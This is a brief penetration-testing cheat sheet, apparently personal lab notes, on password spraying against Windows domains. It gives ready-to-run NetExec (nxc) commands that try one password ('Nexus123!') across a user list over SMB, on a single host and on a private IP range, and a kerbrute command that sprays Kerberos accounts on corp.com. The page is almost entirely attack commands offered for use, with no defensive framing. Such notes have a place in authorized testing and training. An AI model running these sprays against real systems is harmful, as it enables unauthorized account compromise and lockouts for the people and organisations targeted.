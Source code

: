 # SMB Password Spraying
Sprays user accounts with "Nexus123!" password
```bash
nxc smb $(ANY_DOMAIN_JOINED_MACHINE_IP) -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
Spray multiple targets at once:
```bash
nxc smb -t 192.168.182.70-76 -u users.txt -p 'Nexus123!' -d $(DOMAIN) --continue-on-success
```
# TGT Password Spraying
https://github.com/ropnop/kerbrute

Kerbrute can be run on windows or linux. This example ruins on windows to spray usernames with the password "Nexus123!".
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
